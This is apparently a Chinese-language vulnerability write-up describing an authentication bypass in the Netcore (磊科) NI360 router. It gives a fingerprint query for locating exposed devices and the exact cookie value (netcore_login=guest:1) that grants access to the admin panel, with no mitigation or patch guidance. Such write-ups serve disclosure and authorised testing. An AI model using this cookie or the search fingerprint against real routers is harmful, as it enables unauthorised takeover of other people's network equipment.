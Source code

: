 # 磊科 NI360路由器 netcore_loginnetcore_login 认证绕过漏洞

## 漏洞描述

磊科 NI360路由器 存在认证绕过漏洞，通过添加特定的Cookie字段获取后台权限

## 漏洞影响

<a-checkbox checked>磊科 NI360路由器</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Netcore"</a-checkbox></br>

## 漏洞描述

登录页面如下

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210609112109559.png)



添加 Cookie字段 : `netcore_login=guest:1`，刷新后登录后台

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210609175225486.png)

